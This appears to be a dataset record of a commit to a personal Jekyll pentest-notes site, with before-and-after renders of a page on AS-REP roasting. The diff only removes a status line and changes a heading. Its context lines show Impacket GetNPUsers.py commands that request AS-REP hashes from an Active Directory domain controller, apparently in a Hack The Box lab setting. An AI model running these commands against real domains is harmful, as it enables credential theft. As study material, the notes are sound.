

Before and after one commit to sahabrifki/sahabrifki.github.io, a Jekyll site: the page built from AD/asrep_roasting.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update asrep_roasting.md

````diff
--- a/AD/asrep_roasting.md
+++ b/AD/asrep_roasting.md
@@ -1,6 +1,5 @@
 # ASREPRoast
 
-Status: Not started
 
 ### Enumerating From internal Windows
 
@@ -34,7 +33,7 @@
 python GetNPUsers.py domain_name/username:password -request -format hashcat -outputfile hashes.asreproast
 ```
 
-**Enumerating AS-REP Using Kerbrute**
+### Enumerating AS-REP Using Kerbrute
 
 ```bash
 Foresty@htb[/htb]$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
````
